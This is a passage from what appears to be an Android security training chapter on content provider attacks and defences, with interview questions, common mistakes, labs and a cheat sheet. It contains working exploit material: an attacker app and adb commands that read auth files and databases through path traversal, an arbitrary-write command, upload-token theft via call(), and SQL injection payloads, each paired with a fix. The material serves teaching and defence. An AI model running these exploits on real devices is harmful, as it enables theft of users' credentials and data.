content read --uri "content://com.example.docs.fileprovider/root/data/user/0/com.example.docs/databases/app.db-wal" > /sdcard/app.db-wal
```

```java
// Attacker app — the same, from an unprivileged UID
String[] targets = {
    "root/data/user/0/com.example.docs/shared_prefs/auth.xml",
    "root/data/user/0/com.example.docs/databases/app.db",
    "root/data/user/0/com.example.docs/files/session.json",
    "root/proc/self/maps"
};
for (String t : targets) {
    Uri u = Uri.parse("content://com.example.docs.fileprovider/" + t);
    try (InputStream in = getContentResolver().openInputStream(u)) {
        byte[] b = new byte[4096];
        int n = in.read(b);
        Log.i("poc", t + " -> " + new String(b, 0, Math.max(n, 0), StandardCharsets.UTF_8));
    } catch (Exception e) {
        Log.w("poc", t + " -> " + e);
    }
}
```

The fix is two lines of XML and one attribute:

```xml
<!-- FIXED — res/xml/file_paths.xml -->
<paths>
    <files-path name="shared" path="shared/" />
</paths>
```

```xml
<!-- FIXED — AndroidManifest.xml -->
<provider
    android:name="androidx.core.content.FileProvider"
    android:authorities="${applicationId}.fileprovider"
    android:exported="false"
    android:grantUriPermissions="true">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS"
               android:resource="@xml/file_paths" />
</provider>
```

`exported="false"` with `grantUriPermissions="true"` is the correct FileProvider configuration:
unreachable on its own, but able to hand out per-file grants when the app chooses to.

### 9.4 Real application — a messaging app's attachment provider

This is a composite of patterns seen in real applications, showing how several small decisions
compound.

```java
// A real-shaped provider: attachments, thumbnails, and an "internal" RPC
public class AttachmentProvider extends ContentProvider {

    private static final String AUTH = "com.example.chat.attachments";
    private static final int ATTACH = 1, THUMB = 2, EXPORT = 3;
    private static final UriMatcher M = new UriMatcher(UriMatcher.NO_MATCH);
    static {
        M.addURI(AUTH, "attachment/#",   ATTACH);
        M.addURI(AUTH, "thumb/#",        THUMB);
        M.addURI(AUTH, "export/*",       EXPORT);      // <-- the problem
    }

    @Override
    public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
        switch (M.match(uri)) {
            case ATTACH: {
                long id = ContentUris.parseId(uri);
                File f = attachmentFileForId(id);      // safe: id -> known path
                return ParcelFileDescriptor.open(f, ParcelFileDescriptor.MODE_READ_ONLY);
            }
            case EXPORT: {
                // "export/<filename>" — lets the user export a conversation transcript
                String name = uri.getLastPathSegment();
                File f = new File(getContext().getExternalFilesDir(null), name);   // <-- traversal
                return ParcelFileDescriptor.open(f, ParcelFileDescriptor.parseMode(mode)); // <-- caller mode
            }
        }
        throw new FileNotFoundException(uri.toString());
    }

    @Override
    public Bundle call(String method, String arg, Bundle extras) {
        if ("prewarmMedia".equals(method)) { prewarm(arg); return Bundle.EMPTY; }
        if ("getUploadToken".equals(method)) {                                     // <-- leak
            Bundle b = new Bundle();
            b.putString("token", Session.get().uploadToken());
            return b;
        }
        return null;
    }
}
```

```xml
<provider
    android:name=".AttachmentProvider"
    android:authorities="com.example.chat.attachments"
    android:exported="true"
    android:grantUriPermissions="true" />
```

Three findings in one component, of escalating severity:

| # | Finding | Severity | Why |
|---|---|---|---|
| 1 | `EXPORT` route builds a path from `getLastPathSegment()` with no canonicalisation | High | Arbitrary read from the victim's UID, including internal storage via `..%2F` |
| 2 | The same route passes the caller's `mode` to `parseMode()` | Critical | Arbitrary **write** into the victim's sandbox |
| 3 | `call("getUploadToken")` returns a session credential with no caller check | Critical | Any app obtains the user's upload token, which authenticates to the backend |

The exploit for all three:

```bash
# adb shell — 1. arbitrary read
content read --uri "content://com.example.chat.attachments/export/..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.chat%2Fdatabases%2Fchat.db" > /sdcard/chat.db
```

```bash
# adb shell — 2. arbitrary write (overwrite a preference file to flip a flag)
content write --uri "content://com.example.chat.attachments/export/..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.chat%2Fshared_prefs%2Fsettings.xml" < /sdcard/evil.xml
```

```bash
# adb shell — 3. steal the token
content call --uri content://com.example.chat.attachments --method getUploadToken
```

The remediation, written the way it should appear in a report:

1. Make the provider `android:exported="false"` and keep `grantUriPermissions="true"`. The app's own
   UI issues grants when the user chooses to share; no external app needs to reach the provider on its
   own initiative.
2. Remove the `export/*` route entirely. Exporting a transcript is a *push* operation the app performs
   into a user-chosen location via the Storage Access Framework, not a *pull* operation an arbitrary
   caller performs against a filename.
3. If a filename-addressed route must remain, canonicalise and verify containment as shown in
   [5.2](#52-path-traversal-in-openfile), and hard-code `MODE_READ_ONLY` rather than honouring the
   caller's mode.
4. Delete `getUploadToken` from `call()`. If the companion app genuinely needs the token, use a
   `signature`-permission-protected route and check `checkSignatures` at runtime.

### 9.5 Enterprise — a hardened multi-tenant provider

What a provider looks like when it is written by someone who has read this chapter. This is the
implementation you hold client code against.

```java
package com.enterprise.suite.data;

import android.content.*;
import android.content.pm.PackageManager;
import android.database.Cursor;
import android.database.sqlite.*;
import android.net.Uri;
import android.os.*;
import android.text.TextUtils;
import java.io.*;
import java.util.*;

/**
 * A provider intended to be reached only by same-signature companion applications,
 * scoped per calling package, with a closed projection map, a closed sort whitelist,
 * a canonicalised file route, and an explicitly authorised, minimal call() surface.
 */
public class SuiteProvider extends ContentProvider {

    private static final String AUTH = "com.enterprise.suite.data";

    private static final int RECORDS = 1, RECORD_ID = 2, BLOB_BY_ID = 3;
    private static final UriMatcher M = new UriMatcher(UriMatcher.NO_MATCH);
    static {
        M.addURI(AUTH, "records",      RECORDS);
        M.addURI(AUTH, "records/#",    RECORD_ID);
        M.addURI(AUTH, "blob/#",       BLOB_BY_ID);
    }

    /** Only these columns may ever leave the process, and only under these names. */
    private static final Map<String, String> PROJECTION = new HashMap<>();
    static {
        PROJECTION.put("_id",        "_id");
        PROJECTION.put("title",      "title");
        PROJECTION.put("updated_at", "updated_at");
        // Deliberately excluded: body, owner_email, internal_notes.
    }

    private static final Set<String> SORTS = Collections.unmodifiableSet(new HashSet<>(
            Arrays.asList("_id ASC", "_id DESC", "updated_at ASC", "updated_at DESC")));

    private SQLiteOpenHelper helper;
    private File blobDir;

    @Override
    public boolean onCreate() {
        helper  = new SuiteDbHelper(getContext());
        blobDir = new File(getContext().getFilesDir(), "blobs");
        return true;
    }

    // ---------------------------------------------------------------- authorisation

    /** The only trust decision in this class. Everything else assumes it passed. */
    private String enforceCaller() {
        final int uid = Binder.getCallingUid();
        if (uid == Process.myUid()) {
            return getContext().getPackageName();
        }
        PackageManager pm = getContext().getPackageManager();
        if (pm.checkSignatures(Process.myUid(), uid) != PackageManager.SIGNATURE_MATCH) {
            throw new SecurityException("Caller uid " + uid + " is not same-signature");
        }
        String[] pkgs = pm.getPackagesForUid(uid);
        if (pkgs == null || pkgs.length == 0) {
            throw new SecurityException("Cannot identify caller uid " + uid);
        }
        // With a shared UID there may be several; require an explicit allow-list.
        for (String p : pkgs) {
            if (ALLOWED_PACKAGES.contains(p)) return p;
        }
        throw new SecurityException("Caller " + Arrays.toString(pkgs) + " not in allow-list");
    }

    private static final Set<String> ALLOWED_PACKAGES = Collections.unmodifiableSet(
            new HashSet<>(Arrays.asList(
                    "com.enterprise.suite",
                    "com.enterprise.suite.admin",
                    "com.enterprise.suite.sync")));

    // ---------------------------------------------------------------- read

    @Override
    public Cursor query(Uri uri, String[] projection, String selection,
                        String[] selectionArgs, String sortOrder) {

        final String caller = enforceCaller();

        SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
        qb.setTables("records");
        qb.setProjectionMap(PROJECTION);
        qb.setStrict(true);

        // Tenant isolation: a caller only ever sees rows it owns.
        StringBuilder where = new StringBuilder("owner_package = ?");
        List<String> args = new ArrayList<>();
        args.add(caller);

        switch (M.match(uri)) {
            case RECORDS:
                break;
            case RECORD_ID:
                where.append(" AND _id = ?");
                args.add(String.valueOf(ContentUris.parseId(uri)));
                break;
            default:
                throw new IllegalArgumentException("Unsupported URI");
        }

        // The caller's selection is permitted, but strict grammar prevents escape,
        // and it can only ever narrow the already-scoped set.
        if (!TextUtils.isEmpty(selection)) {
            where.append(" AND (").append(selection).append(")");
            if (selectionArgs != null) args.addAll(Arrays.asList(selectionArgs));
        }

        String order = SORTS.contains(sortOrder) ? sortOrder : "updated_at DESC";

        Cursor c = qb.query(helper.getReadableDatabase(), projection,
                where.toString(), args.toArray(new String[0]),
                null, null, order, "500");        // hard row limit: DoS resistance
        c.setNotificationUri(getContext().getContentResolver(), uri);
        return c;
    }

    // ---------------------------------------------------------------- files

    @Override
    public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
        final String caller = enforceCaller();

        if (!"r".equals(mode)) throw new SecurityException("Read-only");
        if (M.match(uri) != BLOB_BY_ID) throw new FileNotFoundException("Unsupported URI");

        long id = ContentUris.parseId(uri);
        if (!ownsRecord(caller, id)) throw new SecurityException("Not your record");

        File target = new File(blobDir, id + ".bin");
        try {
            String base = blobDir.getCanonicalPath() + File.separator;
            if (!target.getCanonicalPath().startsWith(base)) {
                throw new SecurityException("Escapes base directory");
            }
        } catch (IOException e) {
            throw new FileNotFoundException("Cannot canonicalise");
        }
        return ParcelFileDescriptor.open(target, ParcelFileDescriptor.MODE_READ_ONLY);
    }

    // ---------------------------------------------------------------- rpc

    @Override
    public Bundle call(String method, String arg, Bundle extras) {
        enforceCaller();
        switch (method) {
            case "getSchemaVersion": {
                Bundle b = new Bundle();
                b.putInt("version", SuiteDbHelper.VERSION);
                return b;
            }
            default:
                throw new IllegalArgumentException("Unsupported method: " + method);
        }
    }

    // ---------------------------------------------------------------- write

    @Override
    public Uri insert(Uri uri, ContentValues values) {
        final String caller = enforceCaller();
        if (M.match(uri) != RECORDS) throw new IllegalArgumentException("Unsupported URI");

        // Never trust the caller's ContentValues wholesale — copy only known columns.
        ContentValues safe = new ContentValues();
        if (values.containsKey("title")) safe.put("title", values.getAsString("title"));
        safe.put("owner_package", caller);
        safe.put("updated_at", System.currentTimeMillis());

        long id = helper.getWritableDatabase().insertOrThrow("records", null, safe);
        getContext().getContentResolver().notifyChange(uri, null);
        return ContentUris.withAppendedId(uri, id);
    }

    @Override
    public int update(Uri uri, ContentValues values, String selection, String[] selectionArgs) {
        final String caller = enforceCaller();
        ContentValues safe = new ContentValues();
        if (values.containsKey("title")) safe.put("title", values.getAsString("title"));
        safe.put("updated_at", System.currentTimeMillis());
        // owner_package is never writable by the caller.
        return helper.getWritableDatabase().update("records", safe,
                "owner_package = ? AND _id = ?",
                new String[]{ caller, String.valueOf(ContentUris.parseId(uri)) });
    }

    @Override
    public int delete(Uri uri, String selection, String[] selectionArgs) {
        final String caller = enforceCaller();
        return helper.getWritableDatabase().delete("records",
                "owner_package = ? AND _id = ?",
                new String[]{ caller, String.valueOf(ContentUris.parseId(uri)) });
    }

    @Override
    public String getType(Uri uri) {
        // Unprotected by design; return only a constant, never a database lookup.
        switch (M.match(uri)) {
            case RECORDS:    return "vnd.android.cursor.dir/vnd.enterprise.record";
            case RECORD_ID:  return "vnd.android.cursor.item/vnd.enterprise.record";
            case BLOB_BY_ID: return "application/octet-stream";
            default:         return null;
        }
    }

    private boolean ownsRecord(String caller, long id) {
        try (Cursor c = helper.getReadableDatabase().query("records", new String[]{"_id"},
                "owner_package = ? AND _id = ?",
                new String[]{ caller, String.valueOf(id) }, null, null, null)) {
            return c != null && c.getCount() == 1;
        }
    }
}
```

```xml
<!-- AndroidManifest.xml -->
<permission
    android:name="com.enterprise.suite.permission.DATA"
    android:protectionLevel="signature" />

<provider
    android:name=".data.SuiteProvider"
    android:authorities="com.enterprise.suite.data"
    android:exported="true"
    android:readPermission="com.enterprise.suite.permission.DATA"
    android:writePermission="com.enterprise.suite.permission.DATA"
    android:grantUriPermissions="false" />
```

Note the layered defence: the manifest permission is `signature`, *and* the code re-checks
`checkSignatures` at runtime, *and* the package must be in an allow-list, *and* every row is scoped
to the calling package, *and* the projection is a closed map, *and* the sort order is a whitelist,
*and* there is a hard row limit. Any one of those failing leaves the others standing. When you review
client code, this is the standard to measure against, and the gap between their code and this one is
your finding list.

---
## 10. Common Interview Questions

### Beginner

**Q: What is a content provider and why does Android have them?**
A content provider is an Android component that exposes structured data to other applications through
a `content://` URI, with the framework mediating access and enforcing permissions. Android needs them
because the app sandbox gives each app its own UID and private storage, so there is no filesystem-level
way for one app to read another's data. Providers give a controlled, revocable, row-level alternative
to making files world-readable.

**Q: What are the parts of a `content://` URI?**
Scheme (`content`), authority (a globally unique name identifying the provider, and the only part the
OS interprets), path (interpreted solely by the provider), and optional query parameters (also
interpreted solely by the provider).

**Q: Name the methods a `ContentProvider` can implement.**
`onCreate`, `query`, `insert`, `update`, `delete`, `getType`, `openFile`, `openAssetFile`, and `call`.
`getType` and `call` are the two that do not get a per-URI permission check.

**Q: How does a client app read from a provider?**
Through `ContentResolver`, obtained from a `Context`: `getContentResolver().query(uri, projection,
selection, selectionArgs, sortOrder)`. The client never touches the provider object.

**Q: What is `android:exported` and what is its default?**
It controls whether apps with a different UID can reach the component. For providers it defaults to
`false` when `targetSdkVersion` is 17 or higher, and defaulted to `true` before that.

### Intermediate

**Q: A provider is exported and declares `android:readPermission`. Is it safe?**
Not necessarily, and there are three reasons. First, check the permission's `protectionLevel` — if it
is `normal`, any app can hold it. Second, `readPermission` alone leaves write operations unprotected;
check for `writePermission` separately. Third, `call()` is not covered by URI-level checks at all, so
a `call()` implementation may still be reachable in ways the read permission does not describe.

**Q: Where can SQL injection occur in a provider, and why do people miss two of the three places?**
Selection, projection and sort order. Selection is the one everyone tests. Projection and sort order
are missed because they are column and expression positions rather than value positions — SQLite has
no bind-parameter form for them, so even a developer who correctly used `selectionArgs` for values
must concatenate the column list and the `ORDER BY` expression. Scanners largely test only selection.

**Q: How would you prove a sort-order injection when nothing is returned to you?**
Use a boolean oracle in a `CASE` expression whose false branch raises a SQLite error — for example
`CASE WHEN <condition> THEN _id ELSE abs(-9223372036854775808) END`. `abs()` of the minimum 64-bit
integer overflows and throws, so a successful query means the condition was true and a failed query
means it was false. That is one bit per request, and with a binary search over the character set it
extracts a value quickly.

**Q: What is the difference between `android:grantUriPermissions="true"` and a
`<grant-uri-permission>` element?**
The attribute set to `true` makes every URI under the provider grantable. Set to `false` (the
default), only URIs matching a nested `<grant-uri-permission>` path rule may be granted. The nested
elements let a developer allow grants for `/photos/**` while forbidding them for `/accounts/**`.

**Q: Why is `<root-path path="." />` in a FileProvider configuration dangerous?**
It declares the filesystem root as a shareable root, so `FileProvider` will generate a valid
`content://` URI for any file the app's UID can read — including its own databases and shared
preferences. Any code path that lets an attacker influence which file is shared becomes an arbitrary
read of the app's private storage.

**Q: `content query` from `adb shell` succeeds against a provider. Is that a finding?**
Not yet. `adb shell` runs as UID 2000 with privileges an ordinary app does not have. Reproduce it from
an unprivileged application — Drozer's agent, or a small test APK — before reporting it. This is the
most common false positive in junior Android reports.

### Senior

**Q: Trace what happens between `getContentResolver().query(...)` in an attacker app and the query
running in the victim.**
`ContentResolver.query` calls `acquireUnstableProvider`, which reaches `ActivityThread.acquireProvider`.
If the provider is not cached locally, `ActivityThread` makes a Binder call to
`IActivityManager.getContentProvider`, landing in `ContentProviderHelper.getContentProviderImpl` inside
`system_server`. That resolves the authority through `PackageManagerService`, runs
`checkContentProviderPermission` against the calling PID and UID, starts the provider's process if
necessary and blocks until it publishes, then returns an `IContentProvider` Binder handle. The client
then calls `query` on that proxy, which parcels the arguments and issues a Binder transaction directly
to the provider process. `ContentProviderNative.onTransact` dispatches to `ContentProvider.Transport.query`,
which runs `validateIncomingUri` and `enforceReadPermission` before calling the subclass's `query`.
The resulting `Cursor` is backed by a `CursorWindow` in ashmem, whose file descriptor is returned
across Binder, so row data is read from shared memory rather than through further IPC.

**Q: Why is `call()` more dangerous than `query()`?**
Because there is no URI, the framework cannot perform any URI-scoped or path-scoped permission check,
and `Transport.call` performs no read/write enforcement. Authorisation for `call` is therefore entirely
whatever the provider's declared permission gives you at acquisition time — and if no permission is
declared, that is nothing. Compounding this, `call()` methods are invisible in the manifest: there is
no filter, no path, no declared method list, so configuration-level review cannot see them, and the
methods that exist tend to be exactly the privileged internal operations a developer did not want to
build a whole service for.

**Q: Explain URI-permission laundering.**
An app that holds access to a privileged provider exposes a component that starts an
attacker-supplied `Intent` and returns the result, or issues a grant to an attacker-named component.
The attacker crafts an inner intent aimed at the privileged provider's export path with
`FLAG_GRANT_READ_URI_PERMISSION` set, wraps it in an extra, and invokes the forwarding component. The
victim starts it with the victim's identity, receives a result carrying a grantable URI, and passes it
back — at which point `ActivityManagerService` records a grant in favour of the attacker's package.
The attacker then reads the URI directly. It is a confused-deputy attack: the fix belongs in the
forwarding app, which must clear grant flags and constrain the destination component before starting
any intent that arrived from outside.

**Q: How do you enumerate a provider's valid paths when you have no source?**
Four ways, used together. Extract `content://` strings from the DEX and resources
(`app.provider.finduri` or a grep). Hook `UriMatcher.addURI` with Frida and launch the app, which logs
every route in plain text even when strings are obfuscated. Register a `ContentObserver` on the
authority with `notifyForDescendants=true` and use the app, which reveals the paths it actually
notifies on. And brute force with a wordlist using the `IllegalArgumentException: Unknown URI` versus
`SecurityException` response difference as an oracle.

**Q: A provider is `exported="false"` but the app has `android:sharedUserId`. What changes?**
Any app signed with the same key and declaring the same `sharedUserId` runs under the *same UID*, and
`checkComponentPermission` grants access unconditionally when the calling UID equals the provider's
UID. So the provider is fully reachable from every app in that shared-UID group, regardless of
`exported`. If any app in that group is less carefully written, or is installed on more devices, or
has a broader attack surface, the provider's exposure is that app's exposure.

### Staff Engineer

**Q: Design the provider architecture for a suite of five applications from the same vendor that must
share data, on a fleet spanning Android 8 to 15.**
A strong answer covers: one owning application holds the data and the provider; the other four are
clients. Access is gated by a custom permission with `protectionLevel="signature"`, declared in the
owning app and used by the others. The provider additionally verifies `checkSignatures` at runtime
against `Binder.getCallingUid()` and consults an allow-list of package names, so that a future change
to the signing configuration does not silently widen access. Every row carries an owner column and
queries are scoped to the calling package. The projection is a closed map through
`SQLiteQueryBuilder.setProjectionMap` with `setStrict(true)`; sort order is a whitelist; there is a
hard row limit. `call()` is either absent or reduced to non-sensitive metadata. `grantUriPermissions`
is `false` with explicit `<grant-uri-permission>` prefixes for the file-sharing paths only. Version
concerns: `setStrict` behaviour and the `Bundle` query API differ across releases, so both the legacy
and bundle `query` overloads are overridden and validated identically; package visibility from Android
11 means client apps need `<queries>` entries naming the owning package. Finally, the schema is
versioned and the provider refuses unknown schema versions rather than guessing.

**Q: How would you build a fleet-wide detector for vulnerable providers across a thousand internal
APKs?**
Expect a pipeline: parse each APK's merged manifest with `aapt2 dump xmltree` (not a regex over
decoded XML); build a table of every provider with authority, exported status, permission names and
their protection levels resolved across the whole corpus; join against `<paths>` resources to flag
`root-path` and `external-path` roots; then a code-level pass with a DEX analyser or Semgrep rules
detecting concatenation of `query`'s parameters into `rawQuery`/`execSQL`, `openFile` implementations
lacking a `getCanonicalPath` containment check, `call()` overrides lacking a `Binder.getCallingUid`
check, and `getParcelableExtra`-to-`startActivity` flows. Rank by data sensitivity, which requires a
manual classification of each app rather than an automated one. Crucially, feed the results back as
build-time gates rather than a report, because a report of a thousand findings is never acted upon.

**Q: `checkSignatures` returns `SIGNATURE_MATCH`. What are you still not sure about?**
That the signing key is not shared with a less-trusted application — many organisations sign
everything with one key, so "same signature" can include a marketing app with an embedded WebView.
That the key has not been rotated (Android supports key rotation with a proof-of-rotation lineage, and
`checkSignatures` semantics around rotated keys differ from `hasSigningCertificate`). And that the
caller UID maps to the package you think it does, because with a shared UID there may be several
packages behind one UID.

### Principal Engineer

**Q: Content providers are a SQL-shaped API exposed across a trust boundary. Was that the right
design, and what would you build instead today?**
Argue both sides. In favour: a uniform data abstraction across the platform enabled a rich ecosystem
with a single permission model, a single revocation mechanism, and a single tooling surface;
`DocumentsProvider` and the Storage Access Framework are genuine successes built on it; and the
`CursorWindow` shared-memory design is an efficient answer to bulk data transfer over IPC. Against:
exposing `WHERE`, projection and `ORDER BY` strings across a trust boundary is a design that *invites*
injection, and the platform has spent a decade adding mitigations (`setStrict`, `setProjectionMap`,
`getTypeAnonymous`) to a shape that was wrong at the start; `call()` is an untyped escape hatch that
defeats every static review; and the URI-grant model, while clever, produces confused-deputy chains
that are extremely hard to reason about. A modern design would use a typed IPC interface — an AIDL or
protobuf-defined RPC with named operations and typed parameters — where every operation is
individually authorisable and the query language is never exposed. Room's `@Query` with compile-time
verification, surfaced over a typed service, is roughly what that looks like inside an app today.

**Q: Android 11 restricted package visibility. Evaluate that change from both an attacker's and a
defender's perspective.**
For the defender it removes a broad reconnaissance capability: an app can no longer trivially
enumerate every installed package and probe every provider, which raises the cost of an automated
harvester and reduces the fingerprinting surface used for tracking. For the attacker it is an
inconvenience rather than a barrier: `<queries>` with a specific package name is available to anyone,
`QUERY_ALL_PACKAGES` exists (policy-restricted on Play, not technically restricted), and known
high-value authorities can be probed directly without enumeration. The deeper cost is to defenders and
researchers: security tools, anti-malware, and enterprise management software lost visibility that
malware retains by other means, which is a familiar asymmetry. The right conclusion is that visibility
restrictions are a privacy control that produces a modest security benefit, and treating them as an
access control would be a mistake — an unprotected provider is exactly as exploitable after the change
as before, once the attacker knows its authority.

**Q: If you owned the platform, what single change would most reduce provider vulnerabilities in the
field?**
A defensible answer: make `SQLiteQueryBuilder`-with-strict-mode the only path by which a provider can
serve a caller-supplied selection, projection or sort order — that is, deprecate and eventually remove
the ability to pass those three strings through to a raw statement, replacing them with a structured
query argument object that the framework compiles. Discuss the migration cost, the compatibility
strategy (`targetSdk`-gated behaviour change, as Android has done repeatedly), and why the alternative
of "better documentation" has demonstrably not worked over fifteen years.

---

## 11. Common Mistakes

### Developer mistakes

- **Exporting a provider to serve a companion app, with no permission.** The single most common cause
  of provider findings. The correct pattern is a `signature` permission plus a runtime
  `checkSignatures` check.
- **Believing `selectionArgs` protects the whole query.** It protects only values bound to `?`
  placeholders in the selection. Projection and sort order are still concatenated.
- **Blacklisting `..` instead of canonicalising.** Defeated by URL encoding, double encoding, absolute
  paths and symlinks. `getCanonicalPath()` with a containment check is the only reliable control.
- **Forgetting the trailing separator in the containment check**, so `/data/.../publicdata` passes a
  `startsWith("/data/.../public")` test.
- **Copying `<root-path path="." />` from Stack Overflow** to make `FileProvider` stop complaining.
- **Using `call()` as a private back channel** and shipping debug methods like `execSql` or
  `enableDebug` in release builds.
- **Declaring `readPermission` and forgetting `writePermission`**, leaving inserts, updates and
  deletes open.
- **Returning data from `getType()` by querying the database**, converting an intentionally
  unprotected method into a read primitive.
- **Assuming provider methods run single-threaded.** They run on Binder pool threads and can execute
  concurrently; mutable instance state needs synchronisation.
- **Doing slow work in `onCreate()`**, which runs on the main thread before `Application.onCreate()`
  and delays every app launch.
- **Trusting `getCallingPackage()` for a security decision** when a shared UID makes it ambiguous.
- **Not reading the merged manifest**, so a library's exported provider is never noticed.

### Pentester mistakes

- **Reporting a `content query` that succeeded from `adb shell` without reproducing it from an
  unprivileged app.** UID 2000 is not an app. This invalidates the finding.
- **Testing only the selection parameter** for injection and declaring the provider clean.
- **Not trying URL-encoded traversal.** `../` is often blocked while `..%2F` sails through, because the
  string check runs before URI decoding.
- **Stopping at the `.db` file** and missing `.db-wal` and `.db-journal`, which frequently contain
  deleted rows.
- **Ignoring `call()`** because it does not appear in the manifest. It is often the highest-severity
  finding in the app.
- **Fuzzing with a stable provider client** and being killed along with the target when it crashes.
  Use `acquireUnstableContentProviderClient`.
- **Concluding a provider is unreachable because enumeration returned nothing on Android 11+**, when
  the real cause is package-visibility filtering.
- **Reporting an exported provider protected by a `signature` permission as a vulnerability.** Check
  the protection level before you write it up.
- **Overstating severity.** "SQL injection in a content provider" is Critical only if the database
  contains something worth stealing. State what you actually extracted.
- **Running `content delete` or `content update` on a client's live app**, destroying data and
  evidence. Snapshot first, prefer read-only tests, and get write testing explicitly in scope.

### Reverse engineer mistakes

- **Reading the source `AndroidManifest.xml` rather than the merged one from the APK.** They differ,
  and only the merged one ships.
- **Trusting `apktool`'s decoded manifest without cross-checking `aapt2 dump xmltree`.** A crafted APK
  can make the two disagree; `PackageManagerService` follows neither of your tools.
- **Assuming obfuscation hid the provider.** It cannot: the class is named in the manifest and the six
  method signatures override framework methods, so they survive.
- **Missing runtime-constructed URIs.** A grep for `content://` misses
  `Uri.Builder().scheme("content").authority(x)`. Search for `Uri.Builder` and `withAppendedPath` too.
- **Not checking `res/xml/` for the FileProvider paths file**, which is referenced by `<meta-data>`
  and can be called anything.
- **Reading `call()`'s switch statement and stopping**, without checking whether the *default* branch
  falls through to something generic like a reflection-based dispatcher.
- **Assuming a native library named in the APK is used by the provider.** Confirm with
  `/proc/<pid>/maps` and a Frida hook.

---

## 12. Hands-on Labs

Full lab material lives in [`labs/`](labs/). Each lab includes the vulnerable application source you
need to build, so you are exploiting code you can read and then fix.

| Lab | Objective | Difficulty |
|---|---|---|
| [Lab 01 — Enumerate and read an exported provider](labs/lab-01-enumerate-and-read.md) | Build a deliberately exported provider, enumerate it from `adb` and from an unprivileged app, and prove the difference between the two | Beginner |
| [Lab 02 — All three injection points](labs/lab-02-sql-injection.md) | Exploit selection, projection and sort-order injection against the same provider, extract the schema, then apply the `SQLiteQueryBuilder` fix and re-test | Intermediate |
| [Lab 03 — `openFile` path traversal to session token](labs/lab-03-path-traversal.md) | Read the victim's `shared_prefs` through a traversal in `openFile`, escalate to arbitrary write, then implement canonicalisation and verify the fix | Intermediate |
| [Lab 04 — `call()` as an RPC entry point](labs/lab-04-call-rpc.md) | Discover undocumented `call()` methods by three independent techniques and exploit the most dangerous one | Advanced |
| [Lab 05 — CTF: Provider Gauntlet](labs/lab-05-ctf-provider-gauntlet.md) | Five flags across one APK: an exported provider, an obfuscated authority, a projection-only injection, an encoded traversal, and a laundered URI grant | Advanced |

**Assignment.** After Lab 02, write your own version of `scripts/provider-enum.sh`. Do not copy the
one in this chapter. Make it distinguish the five response types in section
[7.3](#73-distinguishing-the-error-responses), and make it work against a provider whose paths you do
not know. The script you write yourself is the one you will trust at 2 a.m. on an engagement.

---

## 13. Summary

### Key points

- A content provider is a permission-mediated, URI-addressed data API that any app on the device can
  call if it is exported and the caller satisfies its permission. Treat it as a public API, because it
  is one.
- The authority is the only part of a `content://` URI that the operating system understands.
  Everything after it is parsed by the provider, which is why traversal and injection live there.
- `android:exported` defaulted to `true` before `targetSdkVersion 17` and `false` from 17 onwards, but
  merged library manifests, deliberate exports and `normal`-protection permissions all defeat the
  default.
- SQL injection has **three** entry points — selection, projection and sort order. Only selection has
  a safe binding mechanism. Test all three, every time.
- `openFile` traversal returns a real file descriptor opened with the victim's UID, so it is a genuine
  sandbox bypass, not merely a data leak. Only `getCanonicalPath()` with a containment check (including
  the trailing separator) prevents it.
- `call()` has no automatic permission check, appears nowhere in the manifest, and is where developers
  put their privileged internal operations. It is the highest-yield, least-tested part of the surface.
- URI permission grants can be laundered through any component that starts an attacker-supplied intent
  and returns its result. Clear grant flags and constrain the component before forwarding anything.
- `FileProvider` is correctly configured as `exported="false"` with `grantUriPermissions="true"`. A
  `<root-path>` element in its `<paths>` resource is a finding on its own.
- `adb shell` runs as UID 2000. Nothing you demonstrate there is a finding until you reproduce it from
  an ordinary application UID.
- The remediation that closes the whole injection class in two lines is `SQLiteQueryBuilder` with
  `setProjectionMap()` and `setStrict(true)`.

### Mind map



### Condensed cheat sheet

| Need | Command or code |
|---|---|
| Every provider on the device | `adb shell dumpsys package providers` |
| One app's providers | `adb shell dumpsys package <pkg> \| grep -A12 "Provider{"` |
| Read a provider | `adb shell content query --uri content://<auth>/<path>` |
| Projection injection | `--projection "(SELECT group_concat(sql) FROM sqlite_master) AS s"` |
| Selection injection | `--where "1=1"` |
| Sort-order oracle | `--sort "CASE WHEN <cond> THEN _id ELSE abs(-9223372036854775808) END"` |
| Traversal read | `adb shell content read --uri "content://<auth>/x/..%2F..%2Fdatabases%2Fapp.db"` |
| RPC call | `adb shell content call --uri content://<auth> --method <m> --arg <a>` |
| MIME type (unprotected probe) | `adb shell content gettype --uri content://<auth>/<path>` |
| Live URI grants | `adb shell dumpsys activity permissions` |
| Drozer: exported providers | `run app.provider.info -a <pkg>` |
| Drozer: mine URIs from the APK | `run app.provider.finduri <pkg>` |
| Drozer: injection scan | `run scanner.provider.injection -a <pkg>` |
| Frida: dump routes | hook `android.content.UriMatcher.addURI` |
| Frida: see compiled SQL | hook `android.database.sqlite.SQLiteDatabase.rawQuery` |
| Static: find providers | `grep -rln "extends ContentProvider" out/sources/` |
| Static: find the RPC surface | `grep -rn "public Bundle call" out/sources/` |
| Static: the FileProvider bug | `grep -rn "root-path" work/res/xml/` |
| Fix injection | `SQLiteQueryBuilder` + `setProjectionMap()` + `setStrict(true)` |
| Fix traversal | `getCanonicalPath().startsWith(base + File.separator)` |
| Fix exposure | `android:exported="false"`, or `signature` permission + `checkSignatures` |

### Quick revision

- What does the authority in a `content://` URI do that the path does not?
- At which `targetSdkVersion` did `android:exported` flip to `false` for providers?
- Name the three SQL injection points in `query()`, and say which one has a safe binding mechanism.
- Why can `ORDER BY` not be parameterised, and how do you extract data through it blind?
- Which two provider methods receive no automatic permission check, and why?
- What is the correct `exported`/`grantUriPermissions` combination for a `FileProvider`?
- Why is `<root-path path="." />` a finding?
- What is the only reliable defence against `openFile` path traversal, and what detail is commonly
  omitted from it?
- Describe URI-permission laundering in three sentences, and say which app the fix belongs in.
- Why is a successful `content query` from `adb shell` not by itself a vulnerability?
- What does `IllegalArgumentException: Unknown URI` tell you that `SecurityException` does not?
- Which `ContentResolver` acquisition method should you use when fuzzing, and why?

---

## 14. References

### AOSP source

- `frameworks/base/core/java/android/content/ContentProvider.java` — the base class and the
  `Transport` inner class where permission enforcement happens
- `frameworks/base/core/java/android/content/ContentResolver.java` — the client API
